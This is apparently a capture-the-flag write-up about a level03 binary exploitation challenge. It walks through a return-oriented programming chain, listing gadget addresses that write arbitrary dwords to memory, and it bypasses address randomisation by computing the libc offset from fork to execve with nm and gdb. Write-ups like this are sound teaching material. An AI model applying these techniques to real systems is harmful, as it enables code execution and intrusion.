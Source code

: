 We will use Return-oriented programming again to achieve code
execution, much like we did in the previous challenge.

# Times are tough, not enough functions to go around

In the previous level, we achieved execution by using nread to writing
some strings into memory and using those pieces of memory when calling
`execve` to run our program of choice.

We don't have that convenience now, we need to jump through some hoops
:)

Using the chain listed below, I am able to add `0x10101010` to memory,
`0x20202020` in this case.

{% highlight c %}
0x08049b4f               // pop eax; add esp, 0x5c; ret
0x10101010               // Arbitrary dword to add to [ebx]
// 0x5c bytes of padding
0x08049402               // pop ebx; pop ebp; ret
0x02020202 - 0x5d5b04c4; // Arbitrary address to modify the contents of
// 4 bytes of padding
0x080493fe               // add dword ptr [ebx + 0x5d5b04c4], eax; ret;
0xdeadbeef               // next address to return to
...
{% endhighlight %}

Now that we basically write to memory, our next goal will be to craft
a chain that will enable us to execute what we want.

There is no execve directly available to us via the linking-table. The
memory-layout is randomized (the offsets however, are not.) If we can
take the location of a shared library function and adjust that
address, we could possibly end up where we want to be :)

The address of execve is randomized at program startup, all we need to
do is to use a pointer at the linking-table, increment that pointer
with a offset we know, to make it point to execve.

I used `nm -Dv /lib/i386-linux-gnu/libc.so.6` (`-v` to sort by address
rather than by function name) and searched for execve, scrolled up
until I saw a function name which is present in the level03 plt and
proceeded to calculate and verify the offset using gdb.

~~~
$ nm -Dv /lib/i386-linux-gnu/libc.so.6`
...
0009b5c0 W fork
...
0009b910 W execve
...
(gdb) x/x fork+0x350 # 0x9b910-0x9b5c0 = 0x350
0xb7470910 <__execve>: ...
~~~
